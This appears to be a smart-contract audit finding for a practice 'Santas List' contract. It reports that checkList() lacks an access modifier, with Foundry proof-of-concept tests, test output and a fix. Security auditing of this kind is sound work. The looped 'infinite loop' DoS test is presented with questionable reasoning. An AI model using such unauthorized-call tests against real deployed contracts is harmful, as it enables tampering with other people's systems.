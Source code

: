 ## [H1] Anyone can call checkList() function

### Severity

High Risk

### Date Modified

Nov 30th, 2023

### Summary

The elves forgot to add the onlySanta modifier to the checkList() function, so anyone can call it and add users to the list. This situation presents several problems:

1. The code should work as expected and this is an onlySanta function and should work as such.
2. The grinch could add enough users to make checkListTwice() unusable via a DoS attack.

### Vulnerability Details (PoC)

Let's start by calling the function with an anonymous user:

```
function test_UserCallCheckList() public {
        vm.prank(user);
        santasList.checkList(user, SantasList.Status.NICE);
        assertEq(uint256(santasList.getNaughtyOrNiceOnce(user)), uint256(SantasList.Status.NICE));
    }
```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_UserCallCheckList
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[PASS] test_UserCallCheckList() (gas: 16036)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.36ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
➜  2023-11-Santas-List git:(main) ✗
```

This is enough for a High Risk vulnerability but let´s create infinite loops to destroy the function and contract:

```
function test_CheckListInfiniteLoop() public {
        vm.startPrank(user);
        for (uint256 i = 1; i < 1_000_000_000; ++i) {
            santasList.checkList(user, SantasList.Status.NICE);
        }
        vm.stopPrank();
    }
```

The contract could be inaccessible (DoS attack) and a malicious actor could add multiple users to the mapping.

### Impact

The contract could be inaccessible (DoS attack) and a malicious actor could add multiple users to the mapping.

### Tools Used

Manual, foundry

### Recommendations

Add the onlySanta protection as expected

```
function checkList(address person, Status status) external onlySanta {
        s_theListCheckedOnce[person] = status;
        emit CheckedOnce(person, status);
    }

```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_UserCallCheckList


[⠢] Compiling...
[⠔] Compiling 2 files with 0.8.22
[⠒] Solc 0.8.22 finished in 1.27s
Compiler run successful!

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[FAIL. Reason: SantasList__NotSanta()] test_UserCallCheckList() (gas: 10924)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 5.76ms

Ran 1 test suites: 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/unit/SantasListTest.t.sol:SantasListTest
[FAIL. Reason: SantasList__NotSanta()] test_UserCallCheckList() (gas: 10924)

Encountered a total of 1 failing tests, 0 tests succeeded
➜  2023-11-Santas-List git:(main) ✗

```
